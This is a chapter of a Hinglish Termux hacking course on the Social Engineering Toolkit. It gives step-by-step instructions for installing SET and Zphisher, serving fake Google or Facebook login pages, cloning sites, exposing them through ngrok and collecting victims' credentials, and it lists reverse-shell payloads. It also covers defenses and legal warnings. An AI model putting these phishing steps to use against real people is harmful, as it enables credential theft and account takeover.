

# Chapter 37: Social Engineering Toolkit (SET)

> **Module:** 6 - Security Tools  
> **Chapter:** 37 of 61  
> **Duration:** 20-25 Minutes  
> **Difficulty:** ⭐⭐⭐ Advanced  

---

## 📋 Chapter Overview

| Section | Content |
|---------|---------|
| Video Script | Complete Hindi narration with timestamps |
| Technical Guide | SET fundamentals and attacks |
| Installation Guide | Step-by-step proot-distro setup |
| Commands Reference | All SET commands covered |
| Practice Exercises | Hands-on phishing labs |
| Troubleshooting | Common SET issues |
| Video Assets | Thumbnail, description, tags |

---

## 🎬 VIDEO SCRIPT (Complete Hindi Narration)

```
═══════════════════════════════════════════════════════════════════════════════
TERMUX FULL COURSE - CHAPTER 37
Title: Social Engineering Toolkit (SET) | Phishing Attacks | T3rmuxk1ng
Duration: 20-25 Minutes
═══════════════════════════════════════════════════════════════════════════════

[INTRO - 0:00 to 0:50]
─────────────────────────────────────────────────────────────────────────────

Namaskar Dosto! Welcome back to Termux Full Course by T3rmuxk1ng!

Aaj ka chapter bahut special hai - Social Engineering Toolkit, ya SET.

Ye tool hacking ka sabse powerful aur dangerous weapon hai - lekin ethical 
hackers ke liye ye ek testing weapon hai. SET ko "people hacking" ka 
tool kaha jaata hai.

Kyunki ye technical vulnerabilities nahi, human vulnerabilities ko target 
karta hai. Yaad rakhein - sabse bada security risk HUMAN hai, machine 
nahi.

Agar aap penetration tester banana chahte ho, security analyst, ya 
bug bounty hunter - SET aapke liye essential hai.

Is video mein hum cover karenge:
- Social Engineering fundamentals
- SET installation Termux mein
- Phishing attacks kaise kaam karte hain
- Fake login pages banana
- Credential harvesting
- Defense mechanisms
- Legal considerations

Play button dabaiye, video like karein, aur channel subscribe karein!

---

[SECTION 1: SOCIAL ENGINEERING FUNDAMENTALS - 0:50 to 4:00]
─────────────────────────────────────────────────────────────────────────────

Sabse pehle samjhein - Social Engineering kya hai?

Social Engineering ek aisi technique hai jisme attacker technical 
vulnerabilities ki jagah human psychology ko exploit karta hai.

Yaani - system hack nahi karna, insaan hack karna.

Real world example:
Aapke phone pe call aata hai - "Hello, main aapke bank se bol raha hoon.
Aapka account insecure hai, aapke card details verify karein."
Aap darr jaate ho, details de dete ho - GAME OVER!

Ye social engineering hai. Technical hack nahi, psychological manipulation hai.

┌─────────────────────────────────────────────────────────────────────────┐
│              SOCIAL ENGINEERING ATTACK TYPES                            │
├──────────────────────┬──────────────────────────────────────────────────┤
│ Type                 │ Description                                     │
├──────────────────────┼──────────────────────────────────────────────────┤
│ Phishing             │ Fake websites to steal credentials              │
│ Vishing              │ Voice phishing (phone calls)                    │
│ Smishing             │ SMS phishing                                    │
│ Spear Phishing       │ Targeted attack on specific person              │
│ Whaling              │ Attack on high-profile targets (CEO, etc.)      │
│ Pretexting           │ Creating fake scenario to get information       │
│ Baiting              │ Leaving infected USBs/files as bait             │
│ Tailgating           │ Physical access following authorized person     │
│ Quid Pro Quo         │ Offering something in exchange for info         │
│ Watering Hole        │ Infecting sites targets frequently visit        │
└──────────────────────┴──────────────────────────────────────────────────┘

Social Engineering kyun kaam karti hai?

Human psychology mein ye weaknesses hain:
1. Trust - Hum logon pe bharosa karte hain
2. Fear - Darr hume galat decisions lene par majboor karta hai
3. Urgency - Jaldi mein hum check nahi karte
4. Greed - Free cheezein hum attract karti hain
5. Helpfulness - Hum madad karna chahte hain
6. Authority - Hum authority figure ki baat maante hain

Attacker in weaknesses ko exploit karta hai.

---

[SECTION 2: SET INTRODUCTION - 4:00 to 6:00]
─────────────────────────────────────────────────────────────────────────────

Ab baat karte hain SET ki - Social Engineering Toolkit.

SET ek open-source framework hai jo TrustedSec (David Kennedy) ne develop 
kiya hai. Ye Python mein likha gaya hai aur Kali Linux ka part hai.

SET kya kya kar sakta hai?

✓ Phishing attacks (fake websites)
✓ Credential harvesting (password stealing)
✓ Website cloning
✓ Payload creation (malware)
✓ Email spoofing
✓ QR code attacks
✓ Wireless attacks (fake AP)
✓ SMS spoofing
✓ And much more...

Termux mein SET directly install nahi hota kyunki ye heavy dependencies 
chahta hai. Isliye hum proot-distro use karenge - Ubuntu ya Kali Linux 
environment Termux ke andar.

Ye advanced chapter hai - beginners ke liye thoda challenging ho sakta hai.
Lekin main step by step explain karunga.

---

[SECTION 3: SET INSTALLATION - 6:00 to 10:00]
─────────────────────────────────────────────────────────────────────────────

Chaliye SET install karte hain Termux mein. Ye process thoda lamba hai 
lekin ek baar setup ho gaya to permanent hai.

[STEP 1: Install proot-distro]

Pehle proot-distro install karein - ye Termux mein Linux distributions 
run karne ke liye chahiye:

    pkg install proot-distro -y

[STEP 2: Install Ubuntu]

Ab Ubuntu install karein:

    proot-distro install ubuntu

Ye download aur extract mein 5-10 minute lag sakta hai. Internet speed 
pe depend karta hai.

[STEP 3: Login to Ubuntu]

Installation ke baad Ubuntu mein login karein:

    proot-distro login ubuntu

Ab aap Ubuntu environment mein ho! Prompt change ho jaayega.

[STEP 4: Update Ubuntu]

Pehle Ubuntu ko update karein:

    apt update && apt upgrade -y

[STEP 5: Install SET Dependencies]

SET ke liye ye dependencies chahiye:

    apt install git python3 python3-pip python3-dev build-essential \
    libssl-dev libffi-dev libxml2-dev libxslt1-dev zlib1g-dev -y

[STEP 6: Clone SET Repository]

Ab SET ko GitHub se download karein:

    git clone https://github.com/trustedsec/social-engineer-toolkit.git

[STEP 7: Install SET]

SET directory mein jao aur install karein:

    cd social-engineer-toolkit
    pip3 install -r requirements.txt
    python3 setup.py install

[STEP 8: Run SET]

Finally, SET run karein:

    setoolkit

First run mein configuration setup hoga. Default options select karein.

---

[SECTION 4: SET MENU STRUCTURE - 10:00 to 12:00]
─────────────────────────────────────────────────────────────────────────────

SET run karne ke baad aapko main menu dikhega:

┌─────────────────────────────────────────────────────────────────────────┐
│                    SET MAIN MENU                                        │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                         │
│  1) Social-Engineering Attacks                                         │
│  2) Penetration Testing (Fast-Track)                                   │
│  3) Third Party Modules                                                │
│  4) Update the Social-Engineer Toolkit                                 │
│  5) Update SET configuration                                           │
│  6) Help, Credits, and About                                           │
│                                                                         │
│  99) Exit the Social-Engineer Toolkit                                  │
│                                                                         │
└─────────────────────────────────────────────────────────────────────────┘

Option 1 - Social-Engineering Attacks - ye main hai. Isme:

┌─────────────────────────────────────────────────────────────────────────┐
│            SOCIAL-ENGINEERING ATTACKS MENU                              │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                         │
│  1) Spear-Phishing Attack Vectors                                      │
│  2) Website Attack Vectors                                             │
│  3) Infectious Media Generator                                         │
│  4) Create a Payload and Listener                                      │
│  5) Mass Mailer Attack                                                 │
│  6) Arduino-Based Attack Vector                                        │
│  7) Wireless Access Point Attack Vector                                │
│  8) QRCode Generator Attack Vector                                     │
│  9) Powershell Attack Vectors                                          │
│  10) SMS Spoofing Attack Vector                                        │
│  11) Third Party Modules                                               │
│                                                                         │
└─────────────────────────────────────────────────────────────────────────┘

Option 2 - Website Attack Vectors - ye phishing ke liye hai:

┌─────────────────────────────────────────────────────────────────────────┐
│              WEBSITE ATTACK VECTORS                                     │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                         │
│  1) Java Applet Attack Method                                          │
│  2) Metasploit Browser Exploit Method                                  │
│  3) Credential Harvester Attack Method                                 │
│  4) Tabnabbing Attack Method                                           │
│  5) Web Jacking Attack Method                                          │
│  6) Multi-Attack Web Method                                            │
│  7) HTA Attack Method                                                  │
│                                                                         │
└─────────────────────────────────────────────────────────────────────────┘

Aaj hum Credential Harvester Attack Method cover karenge jo sabse 
common aur useful hai.

---

[SECTION 5: CREDENTIAL HARVESTING ATTACK - 12:00 to 16:00]
─────────────────────────────────────────────────────────────────────────────

Ab main aapko Credential Harvesting attack demo karunga. Ye sirf 
educational purpose ke liye hai!

[STEP 1: Select Attack]

SET main menu se:
1) Social-Engineering Attacks → Enter
2) Website Attack Vectors → Enter
3) Credential Harvester Attack Method → Enter

[STEP 2: Select Web Template]

Ab aapko options milenge:

┌─────────────────────────────────────────────────────────────────────────┐
│          CREDENTIAL HARVESTER OPTIONS                                   │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                         │
│  1) Web Templates                                                       │
│  2) Site Cloner                                                        │
│ 3) Custom Import                                                       │
│                                                                         │
└─────────────────────────────────────────────────────────────────────────┘

Option 1 - Web Templates: Pre-built fake pages (Google, Facebook, etc.)
Option 2 - Site Cloner: Kisi bhi website ka clone banata hai
Option 3 - Custom Import: Custom HTML page import karein

[DEMO: Using Web Templates]

Select Option 1 - Web Templates

Ab aapko template options milenge:
- Google
- Facebook
- Twitter
- Yahoo
- And more...

Mai example ke liye Google select karta hoon.

Post exploitation ke liye aap IP address ya interface select kar sakte ho.
Local network ke liye apna IP use karein.

Apna IP check karein:
    ifconfig
Ya
    ip addr

SET automatically web server start karega aur phishing page ready hoga!

Victim ko link dena hai. Link format:
http://YOUR_IP_ADDRESS/

Jab victim link open karega, unhe Google login page dikhega. Lekin wo 
fake hai! Jab wo credentials enter karega, SET unse capture karega.

[DEMO: Using Site Cloner]

Agar aap kisi specific website ka clone banana chahte ho:

Option 2 - Site Cloner select karein

SET poochega:
"Enter the url to clone:"

Example: https://twitter.com/login

SET us website ka exact clone ban dega!

Important: HTTPS sites ka clone banana thoda tricky ho sakta hai 
kyunki certificates verify hote hain.

---

[SECTION 6: UNDERSTANDING PHISHING MECHANICS - 16:00 to 18:00]
─────────────────────────────────────────────────────────────────────────────

Ab samjhein ki ye sab technically kaise kaam karta hai.

┌─────────────────────────────────────────────────────────────────────────┐
│              PHISHING ATTACK FLOW                                       │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                         │
│   [Attacker]                    [Victim]                               │
│       │                            │                                    │
│       │  1. Create fake page       │                                    │
│       │  2. Host on web server     │                                    │
│       │  3. Send link ────────────>│                                    │
│       │                            │  4. Click link                     │
│       │                            │  5. Open fake page                 │
│       │                            │  6. Enter credentials              │
│       │<──────────────────────────│  7. Submit form                    │
│       │  8. Receive credentials    │                                    │
│       │                            │                                    │
└─────────────────────────────────────────────────────────────────────────┘

SET internally kya karta hai:

1. Apache/Python web server start karta hai
2. Fake HTML page serve karta hai
3. Form submissions capture karta hai
4. Credentials file mein save karta hai
5. Logs maintain karta hai

Credential file location:
/root/.set/reports/

Ya SET installation directory mein.

---

[SECTION 7: PAYLOAD CREATION - 18:00 to 20:00]
─────────────────────────────────────────────────────────────────────────────

SET mein payloads bhi create kar sakte ho. Payload = malicious code.

Menu structure:
1) Social-Engineering Attacks
4) Create a Payload and Listener

┌─────────────────────────────────────────────────────────────────────────┐
│              PAYLOAD OPTIONS                                             │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                         │
│  1) Shellcode execution (Alphanumeric)                                 │
│  2) Windows Reverse_TCP Shell                                          │
│  3) Windows Meterpreter Reverse_TCP                                    │
│  4) Windows Reverse VNC DLL                                            │
│  5) Windows Reverse TCP Shell (Embedded)                               │
│  ...                                                                   │
│                                                                         │
└─────────────────────────────────────────────────────────────────────────┘

⚠️ WARNING: Payloads create karna aur distribute karna ILLEGAL hai 
bina permission ke! Sirf lab environment mein test karein.

Payload types:
- Reverse Shell: Victim machine se attacker machine pe connection
- Bind Shell: Attacker connects to victim machine
- Meterpreter: Advanced Metasploit payload
- VNC: Remote desktop access

SET payload create karne ke baad usko listener bhi set up kar deta hai 
jo incoming connections accept karega.

---

[SECTION 8: DEFENSE AGAINST SE ATTACKS - 20:00 to 22:00]
─────────────────────────────────────────────────────────────────────────────

Ab baat karte hain defense ki - kaise apne aap ko protect karein.

┌─────────────────────────────────────────────────────────────────────────┐
│              DEFENSE STRATEGIES                                         │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                         │
│ 1. VERIFY SENDER                                                       │
│    - Email address check karein carefully                              │
│    - Display name vs actual email                                      │
│    - When in doubt, call the organization directly                     │
│                                                                         │
│ 2. CHECK URL CAREFULLY                                                 │
│    - Hover karke actual link dekhein                                    │
│    - Look for misspellings (g00gle vs google)                          │
│    - HTTPS does NOT mean legitimate!                                   │
│                                                                         │
│ 3. NEVER SHARE SENSITIVE INFO                                          │
│    - Banks NEVER ask for passwords via email/phone                     │
│    - OTP kisiko share nahi karna                                        │
│    - Password change links direct visit karein                         │
│                                                                         │
│ 4. USE 2FA/MFA                                                         │
│    - Two-Factor Authentication enable karein                           │
│    - Authenticator apps better than SMS                                │
│                                                                         │
│ 5. SECURITY AWARENESS                                                  │
│    - Regular training                                                  │
│    - Phishing simulations                                              │
│    - Stay updated on new attack techniques                             │
│                                                                         │
│ 6. TECHNICAL CONTROLS                                                  │
│    - Email filtering (SPF, DKIM, DMARC)                                │
│    - Web filtering                                                     │
│    - Endpoint protection                                               │
│                                                                         │
└─────────────────────────────────────────────────────────────────────────┘

Phishing email ke signs:
- Urgent language ("Act now!", "Your account will be closed!")
- Generic greetings ("Dear Customer")
- Spelling and grammar mistakes
- Suspicious attachments
- Too good to be true offers
- Request for sensitive information

---

[SECTION 9: LEGAL CONSIDERATIONS - 22:00 to 23:30]
─────────────────────────────────────────────────────────────────────────────

Ye section bahut important hai. Dhyan se suniye.

⚠️ LEGAL WARNING ⚠️

Social Engineering attacks ILLEGAL hain agar:
❌ Bina permission ke kisi pe attack karo
❌ Kisi ki credentials steal karo
❌ Kisi ki privacy violate karo
❌ Financial loss cause karo
❌ Data breach karo

Legal consequences:
- Computer Fraud and Abuse Act (USA)
- IT Act Section 66, 66A (India)
- GDPR violations (Europe)
- Criminal charges
- Heavy fines
- Imprisonment

LEGAL USE CASES:
✅ Authorized penetration testing
✅ Security awareness training
✅ Bug bounty programs
✅ Academic research
✅ Your own lab environment

WRITTEN PERMISSION REQUIREMENTS:
- Written authorization from organization
- Define scope clearly
- Document everything
- Report findings properly

Yaad rakhein: "With great power comes great responsibility"

Ethical hacker = Permission + Documentation + Responsible disclosure

---

[SECTION 10: ALTERNATIVE TOOLS - 23:30 to 25:00]
─────────────────────────────────────────────────────────────────────────────

SET ke alawa Termux mein aur bhi tools hain SE ke liye:

┌─────────────────────────────────────────────────────────────────────────┐
│              ALTERNATIVE PHISHING TOOLS                                 │
├──────────────────────┬──────────────────────────────────────────────────┤
│ Tool                 │ Description                                     │
├──────────────────────┼──────────────────────────────────────────────────┤
│ SocialFish           │ Simple phishing tool with templates             │
│ Zphisher             │ Beginner-friendly phishing toolkit              │
│ Shellphish           │ Multi-platform phishing tool                    │
│ Onex                 │ Tool installer with phishing tools              │
│ NGrok                │ Tunnel for localhost to internet                │
│ BlackEye             │ Simple credential harvester                     │
│ Evilginx2            │ Advanced MITM phishing proxy                    │
│ Gophish              │ Phishing framework for testing                  │
└──────────────────────┴──────────────────────────────────────────────────┘

Quick install example - Zphisher:

    pkg install git php curl -y
    git clone https://github.com/htr-tech/zphisher.git
    cd zphisher
    bash zphisher.sh

Ye tool easier hai beginners ke liye aur direct Termux mein kaam karta hai 
bina proot ke.

NGrok important hai kyunki local phishing page ko internet pe expose karta hai:

    pkg install ngrok
    ngrok http 8080

Ye aapko ek public URL dega jo aapke local server pe point karega.

---

[SUMMARY - 25:00 to 26:00]
─────────────────────────────────────────────────────────────────────────────

To dosto, Chapter 37 complete! Let's summarize:

✅ Social Engineering fundamentals - Human vulnerabilities
✅ SET installation via proot-distro Ubuntu
✅ SET menu structure aur options
✅ Credential harvesting attack demo
✅ Website cloning technique
✅ Payload creation overview
✅ Defense strategies
✅ Legal considerations
✅ Alternative tools

Important commands yaad rakhein:

┌─────────────────────────────────────────────────────────────────────────┐
│                    CHAPTER 37 - IMPORTANT COMMANDS                      │
├─────────────────────────────────────────────────────────────────────────┤
│ proot-distro install ubuntu    │ Install Ubuntu in Termux              │
│ proot-distro login ubuntu      │ Login to Ubuntu                       │
│ git clone [SET_REPO]           │ Download SET                          │
│ python3 setup.py install       │ Install SET                           │
│ setoolkit                      │ Launch SET                            │
│ ifconfig / ip addr             │ Check IP address                      │
│ ngrok http 8080                │ Expose local server to internet       │
└─────────────────────────────────────────────────────────────────────────┘

Next Chapter 38 mein hum WiFi Security Tools cover karenge - Aircrack-ng, 
Wifite, aur wireless penetration testing.

Agar ye video helpful lagi, to:
👍 Like button press karein
🔔 Subscribe karein, notification bell on karein
💬 Koi sawal ho to comment mein poochein
📤 Share karein friends ke saath

Main har comment ka reply karta hoon.

Thank you for watching! Stay ethical, stay safe!

═══════════════════════════════════════════════════════════════════════════════
```

---

## 📖 TECHNICAL GUIDE

### 1. Social Engineering Fundamentals

```
┌─────────────────────────────────────────────────────────────────────────┐
│              SOCIAL ENGINEERING LIFECYCLE                               │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                         │
│   ┌─────────┐    ┌─────────┐    ┌─────────┐    ┌─────────┐            │
│   │ RESEARCH │───>│  PLAN   │───>│ EXECUTE │───>│  EXIT   │            │
│   └─────────┘    └─────────┘    └─────────┘    └─────────┘            │
│       │              │              │              │                    │
│       ▼              ▼              ▼              ▼                    │
│   - OSINT        - Select       - Launch       - Cover tracks         │
│   - Target       method         attack         - Destroy evidence     │
│   - Gather       - Prepare      - Gather       - Document             │
│   info           resources      data           findings               │
│                                                                         │
└─────────────────────────────────────────────────────────────────────────┘
```

### 2. Attack Types Explained

| Attack Type | Description | Example |
|-------------|-------------|---------|
| **Phishing** | Fake websites/emails to steal credentials | Fake bank login page |
| **Spear Phishing** | Targeted phishing attack | Email to specific employee |
| **Whaling** | Attack on executives | Fake CEO email to CFO |
| **Vishing** | Voice phishing | Fake tech support call |
| **Smishing** | SMS phishing | Fake delivery SMS with link |
| **Pretexting** | Creating false scenario | Fake investigator story |
| **Baiting** | Physical media attack | Infected USB in parking lot |
| **Tailgating** | Physical access bypass | Following employee into building |
| **Quid Pro Quo** | Exchange for information | Fake IT support for password |

### 3. SET Architecture

```
┌─────────────────────────────────────────────────────────────────────────┐
│                    SET ARCHITECTURE                                      │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│   ┌─────────────────────────────────────────────────────────────────┐   │
│   │                     SET Core (Python)                            │   │
│   │   - Attack modules                                                │   │
│   │   - Payload generators                                            │   │
│   │   - Web server management                                         │   │
│   └─────────────────────────────────────────────────────────────────┘   │
│                                   │                                      │
│              ┌────────────────────┼────────────────────┐                │
│              ▼                    ▼                    ▼                │
│   ┌─────────────────┐  ┌─────────────────┐  ┌─────────────────┐        │
│   │  Web Server     │  │   Metasploit    │  │   Apache/SSL    │        │
│   │  (Python/HTTP)  │  │   Integration   │  │   Templates     │        │
│   └─────────────────┘  └─────────────────┘  └─────────────────┘        │
│                                                                          │
│              ┌────────────────────┼────────────────────┐                │
│              ▼                    ▼                    ▼                │
│   ┌─────────────────┐  ┌─────────────────┐  ┌─────────────────┐        │
│   │   Payloads      │  │   Email         │  │   Wireless      │        │
│   │   (MSFVenom)    │  │   (SMTP)        │  │   (Hostapd)     │        │
│   └─────────────────┘  └─────────────────┘  └─────────────────┘        │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘
```

### 4. SET Installation Details

#### System Requirements

```
┌─────────────────────────────────────────────────────────────────────────┐
│                    REQUIREMENTS                                          │
├─────────────────────────────────────────────────────────────────────────┤
│ Operating System:  Ubuntu/Kali (via proot-distro)                       │
│ Python:           Python 3.6+                                           │
│ Storage:          2GB+ free space                                       │
│ RAM:              1GB+ recommended                                      │
│ Network:          Internet for installation, local network for attacks  │
│ Permissions:      No root required (proot)                              │
└─────────────────────────────────────────────────────────────────────────┘
```

#### Directory Structure

```
/social-engineer-toolkit/
├── setoolkit                 # Main executable
├── src/                      # Source code
│   ├── core/                 # Core functionality
│   ├── payloads/             # Payload modules
│   ├── phishing/             # Phishing modules
│   └── telemetry/            # Telemetry
├── config/                   # Configuration files
│   └── set_config.py         # Main config
├── reports/                  # Captured credentials
├── templates/                # Web templates
└── readme/                   # Documentation
```

### 5. Credential Harvesting Deep Dive

#### Attack Flow

```
┌─────────────────────────────────────────────────────────────────────────┐
│              CREDENTIAL HARVESTING FLOW                                  │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│  1. Attacker starts SET and selects credential harvester                │
│     setoolkit → 1 → 2 → 3                                               │
│                                                                          │
│  2. Attacker selects/clones target website                              │
│     - Pre-built template (Google, Facebook, etc.)                       │
│     - Clone existing website                                            │
│     - Import custom HTML                                                │
│                                                                          │
│  3. SET starts web server on attacker machine                           │
│     - Default port: 80 or 443                                           │
│     - Binds to attacker's IP                                            │
│                                                                          │
│  4. Attacker sends link to victim                                       │
│     - Direct IP: http://192.168.1.100                                   │
│     - Via ngrok: https://abc123.ngrok.io                                │
│     - Via URL shortener                                                 │
│                                                                          │
│  5. Victim visits fake page                                             │
│     - Page looks identical to real site                                 │
│     - No obvious signs of phishing                                      │
│                                                                          │
│  6. Victim enters credentials                                           │
│     - Username/password submitted                                       │
│     - SET captures and stores                                           │
│                                                                          │
│  7. SET displays captured data                                          │
│     - Real-time output                                                  │
│     - Stored in reports/ directory                                      │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘
```

#### Captured Data Format

```
[*] Credential harvest from: 192.168.1.50
[*] User Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)...
[*] Time: 2024-01-15 14:30:22

Username: victim@email.com
Password: MyP@ssw0rd123

[*] Captured data saved to: /root/.set/reports/credentials.txt
```

### 6. Website Cloning Technique

```
┌─────────────────────────────────────────────────────────────────────────┐
│              WEBSITE CLONING PROCESS                                    │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│  Original Website: https://example.com/login                            │
│                                                                          │
│  ┌─────────────────────────────────────────────────────────────────┐   │
│  │ <form action="https://example.com/auth" method="POST">          │   │
│  │   <input type="text" name="username">                           │   │
│  │   <input type="password" name="password">                       │   │
│  │   <button type="submit">Login</button>                          │   │
│  │ </form>                                                         │   │
│  └─────────────────────────────────────────────────────────────────┘   │
│                                                                          │
│  SET Modified Version:                                                  │
│                                                                          │
│  ┌─────────────────────────────────────────────────────────────────┐   │
│  │ <form action="http://attacker-ip/harvest" method="POST">        │   │
│  │   <input type="text" name="username">                           │   │
│  │   <input type="password" name="password">                       │   │
│  │   <button type="submit">Login</button>                          │   │
│  │ </form>                                                         │   │
│  └─────────────────────────────────────────────────────────────────┘   │
│                                                                          │
│  Key Changes:                                                           │
│  - Form action changed to attacker's harvest endpoint                  │
│  - All resources loaded locally or proxied                             │
│  - JavaScript may be added for additional functionality                │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘
```

### 7. Payload Types

```
┌─────────────────────────────────────────────────────────────────────────┐
│              PAYLOAD TYPES                                               │
├────────────────────────┬────────────────────────────────────────────────┤
│ Payload Type           │ Description                                   │
├────────────────────────┼────────────────────────────────────────────────┤
│ reverse_tcp            │ Victim connects back to attacker              │
│ reverse_https          │ Encrypted reverse connection                  │
│ reverse_http           │ HTTP-based reverse shell                      │
│ bind_tcp               │ Attacker connects to victim                   │
│ meterpreter            │ Advanced Metasploit payload                   │
│ shell_reverse_tcp      │ Basic reverse shell                           │
│ cmd/unix/reverse       │ Unix reverse shell                            │
│ dll injection          │ Windows DLL injection                         │
│ hta_server             │ HTML Application attack                       │
│ powershell             │ PowerShell-based payload                      │
└────────────────────────┴────────────────────────────────────────────────┘
```

### 8. QR Code Attacks

```
┌─────────────────────────────────────────────────────────────────────────┐
│              QR CODE ATTACK METHOD                                       │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│  SET Menu: 1 → 8 (QRCode Generator Attack Vector)                       │
│                                                                          │
│  How it works:                                                          │
│  1. SET generates a QR code                                             │
│  2. QR code contains attacker's phishing URL                            │
│  3. Victim scans QR code with phone                                     │
│  4. Browser opens phishing page                                         │
│  5. Credentials harvested                                               │
│                                                                          │
│  Use cases:                                                             │
│  - Physical phishing (posters, flyers)                                  │
│  - Event badges                                                         │
│  - Restaurant menus (fake)                                              │
│  - Parking meters (fake)                                                │
│                                                                          │
│  QR Code Generation:                                                    │
│  ┌─────────────┐                                                        │
│  │ ▓▓░░▓▓░░▓▓ │  http://attacker-ip/                                   │
│  │ ░▓▓░░▓▓░▓▓ │  ↓                                                     │
│  │ ▓▓░▓▓░░▓▓░ │  Phishing Page                                         │
│  │ ░░▓▓░░▓▓░▓ │                                                        │
│  │ ▓░░▓▓░▓▓░░ │                                                        │
│  └─────────────┘                                                        │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘
```

### 9. WiFi AP Attacks (Concept)

```
┌─────────────────────────────────────────────────────────────────────────┐
│              EVIL TWIN ATTACK                                            │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│  SET Menu: 1 → 7 (Wireless Access Point Attack Vector)                  │
│                                                                          │
│  Attack Flow:                                                           │
│                                                                          │
│  ┌─────────────┐      ┌─────────────┐      ┌─────────────┐             │
│  │ Legitimate  │      │   Fake AP   │      │   Attacker  │             │
│  │   Router    │      │  (SET Tool) │      │   Machine   │             │
│  │ "HomeWiFi"  │      │  "HomeWiFi" │      │             │             │
│  └──────┬──────┘      └──────┬──────┘      └──────┬──────┘             │
│         │                    │                    │                     │
│         │  ┌─────────────────┴────────────────┐   │                     │
│         │  │         Victim connects          │   │                     │
│         │  │         to stronger signal       │   │                     │
│         │  └─────────────────┬────────────────┘   │                     │
│         │                    │                    │                     │
│         │                    │  ┌─────────────────┴────────────────┐    │
│         │                    │  │ All traffic routed through       │    │
│         │                    │  │ attacker (MITM)                  │    │
│         │                    │  └─────────────────┬────────────────┘    │
│         │                    │                    │                     │
│         │                    │  ┌─────────────────┴────────────────┐    │
│         │                    │  │ Victim sees captive portal        │    │
│         │                    │  │ Enters WiFi password             │    │
│         │                    │  └──────────────────────────────────┘    │
│                                                                          │
│  Requirements:                                                          │
│  - WiFi adapter (monitor mode capable)                                  │
│  - hostapd, dnsmasq                                                     │
│  - Root access (may not work in Termux proot)                           │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘
```

### 10. Email Spoofing Concepts

```
┌─────────────────────────────────────────────────────────────────────────┐
│              EMAIL SPOOFING MECHANICS                                   │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│  Normal Email Flow:                                                     │
│  sender@bank.com → SMTP Server → Recipient                             │
│                                                                          │
│  Spoofed Email Flow:                                                    │
│  attacker@evil.com → Compromised SMTP → Recipient                       │
│                    (Displays: security@bank.com)                        │
│                                                                          │
│  How it works:                                                          │
│  ┌─────────────────────────────────────────────────────────────────┐   │
│  │ FROM: security@bank.com (Display Name & Email)                  │   │
│  │ REPLY-TO: attacker@evil.com (Hidden)                            │   │
│  │ RETURN-PATH: attacker@evil.com (Hidden)                         │   │
│  └─────────────────────────────────────────────────────────────────┘   │
│                                                                          │
│  SET Email Spoofing Options:                                           │
│  - Set arbitrary FROM address                                          │
│  - Attach malicious files                                              │
│  - Include tracking pixels                                             │
│  - Create convincing templates                                         │
│                                                                          │
│  Defense (SPF/DKIM/DMARC):                                             │
│  ┌─────────────────────────────────────────────────────────────────┐   │
│  │ SPF (Sender Policy Framework):                                   │   │
│  │   - Defines which IPs can send for domain                        │   │
│  │   - v=spf1 include:_spf.google.com ~all                         │   │
│  │                                                                  │   │
│  │ DKIM (DomainKeys Identified Mail):                              │   │
│  │   - Cryptographic signature                                      │   │
│  │   - Verifies email integrity                                     │   │
│  │                                                                  │   │
│  │ DMARC (Domain-based Message Authentication):                    │   │
│  │   - Policy for handling failed SPF/DKIM                          │   │
│  │   - v=DMARC1; p=reject; rua=mailto:admin@domain.com             │   │
